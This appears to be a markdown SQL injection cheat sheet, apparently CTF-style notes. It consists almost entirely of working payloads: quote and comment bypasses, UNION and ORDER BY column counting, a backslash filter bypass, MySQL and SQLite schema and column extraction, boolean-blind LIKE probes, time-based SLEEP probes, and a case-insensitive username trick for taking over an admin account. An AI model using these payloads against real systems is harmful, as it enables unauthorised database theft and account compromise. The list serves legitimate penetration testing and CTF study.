 
###### In the following queries, `'` may not work sometimes, so { __\`__,`"` } can  be tested
###### To comment out the remaining code, { `;#`,`;--`,`;//` } can be used
###### While doing sqli through urls, { `;#`,`;--`,`;//` } need to be encoded specially 

### Finding no of columns in table
* `' UNION SELECT 1,2,3.. FROM table_name`
* `' ORDER BY n`  [If we get error for n, then n-1 will be no of columns]
 
### Limiting no of rows
* `' OR 1=1 LIMIT 1 --`

### Special Bypassing
```   
<?php 
$name = preg_replace("'","",$name);
$pass = preg_replace("'","",$pass);
SELECT * FROM users WHERE username='name' and password='pass'
```
[attack] => user = `\`  & pass = `OR 1=1 --`

## For Mysql
#### Finding version and databases
  `' UNION SELECT 1,@@version,database(),4,.....`
#### Extracting Tables from databases
  `' union select 1,group_concat(table_name),3... from information_schema.tables where table_schema=database()`
#### Extracting columns from databases
  `' union select 1,group_concat(column_name),3... from information_schema.columns where table_schema=database()`
  `' UNION SELECT table_name, column_name, 1 FROM information_schema.columns`

## For sqlite
 In sqlite __sqlite_master__ replaces __information_schema__
#### Extracting table names
  `' UNION SELECT name FROM sqlite_master WHERE type='table'`
#### Extracting column names from a table
  `' UNION SELECT sql FROM sqlite_master WHERE type='table' AND tbl_name = 'table_name'`

## Blind SQLI
* `' WHERE EXISTS(SELECT * FROM table_name WHERE username LIKE "%a%") --`   [It will ask whether a user with letter "a" or "A" containing in his name]
* `' WHERE EXISTS(SELECT * FROM table_name WHERE username LIKE "__a%") --`	 [It will ask whether the letter is at 3rd place or NOT]

  HERE `%`,`_` are WILDCARDS. `%` matches any string and `_` matches only one character

* By default, LIKE is __case-insensitive__

  `' WHERE EXISTS(SELECT * FROM table_name WHERE username LIKE BINARY "%a%") --` [To make a case sensitive search, use BINARY right after LIKE]

## Time-based Blind SQLI
* `' OR (SELECT SLEEP(10) FROM table_name WHERE username='something') --`
* `' OR IF(username='something',SLEEP(10),0) --`
 
## Common-errs
* `mysql` does a case insensitive search by default and also ignores the trailing spaces

   How to exploit that?
   
   A username `Admin` can be created and it can be used to sign-in as `admin`
